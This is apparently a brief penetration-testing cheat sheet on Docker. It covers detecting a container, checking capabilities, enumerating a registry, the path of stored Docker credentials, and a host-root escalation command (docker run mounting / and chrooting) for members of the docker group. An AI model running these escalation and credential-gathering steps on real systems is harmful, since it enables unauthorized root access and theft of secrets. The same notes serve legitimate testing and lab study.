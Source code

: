## Want to know if you are inside a container in Linux ?

`cat /proc/self/cgroup`

---

## Capabilities provided to the container 

`apsh --print`

- If you have SYS_MODULE listed, you will be able to become root outside of the conatainer : https://blog.pentesteracademy.com/privilege-escalation-ctf-walkthrough-part-ii-b596f345ecd1

## Registry API

- in general in /v2/

- List repository : /v2/_catalog

- see docs.docker.com/registry/spec/api

---

## Login on docker

- install docker

- ```docker login <url>```

- if it needs certificate : ```mkdir -p /etc/docker/certs.d/url```, copy it inside, and login

---

## Password storing 

- ~/.docker/config.json or /root/.docker/config.json

---

## Run the container

- ```docker run -it url/<repository-image> sh```

---

## Privilege escalation

- Your user is in the docker group ? gtfobins docker :
- ```docker images```
- ```docker run -v /:/mnt --rm -it <image found> chroot /mnt sh```





